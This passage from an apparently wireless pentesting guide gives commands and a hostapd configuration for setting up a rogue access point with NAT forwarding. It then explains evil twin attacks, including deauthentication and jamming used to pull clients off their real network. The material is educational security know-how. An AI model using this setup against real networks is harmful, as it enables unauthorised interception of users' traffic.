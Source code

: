 Copy
ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
And then start dnsmasq:

Copy
dnsmasq -C dnsmasq.conf -d
hostapd
Copy
apt-get install hostapd
Create a config file hostapd.conf:

Copy
interface=wlan0
driver=nl80211
ssid=MITIWIFI
hw_mode=g
channel=11
macaddr_acl=0
ignore_broadcast_ssid=0
auth_algs=1
wpa=2
wpa_passphrase=mitmwifi123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_group_rekey=86400
ieee80211n=1
wme_enabled=1
Stop annoying processes , set monitor mode, and start hostapd:

Copy
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
hostapd ./hostapd.conf
Forwarding and Redirection
Copy
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT
echo 1 > /proc/sys/net/ipv4/ip_forward
Evil Twin
An evil twin attack exploits the way WiFi clients recognize networks, primarily relying on the network name (ESSID) without requiring the base station (access point) to authenticate itself to the client. Key points include:

Difficulty in Differentiation: Devices struggle to distinguish between legitimate and rogue access points when they share the same ESSID and encryption type. Real-world networks often use multiple access points with the same ESSID to extend coverage seamlessly.

Client Roaming and Connection Manipulation: The 802.11 protocol allows devices to roam between access points within the same ESS. Attackers can exploit this by luring a device to disconnect from its current base station and connect to a rogue one. This can be achieved by offering a stronger signal or disrupting the connection to the legitimate access point through methods like deauthentication packets or jamming.
